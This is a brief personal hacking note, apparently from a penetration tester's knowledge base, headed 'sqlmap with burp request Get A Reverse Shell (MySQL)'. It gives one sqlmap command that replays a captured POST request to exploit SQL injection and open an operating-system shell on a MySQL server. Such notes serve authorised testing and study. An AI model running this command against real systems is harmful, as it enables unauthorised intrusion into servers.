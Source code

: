 # sqlmap with burp request Get A Reverse Shell (MySQL)
```bash
-r post_request.txt --dbms "mysql" --os-shell
```

# References
- [20221003150709](/zet/20221003150709/) sqlmap
- ~/kb/hacking/commands/sqlmap-commands.md

Tags:
    #assorted

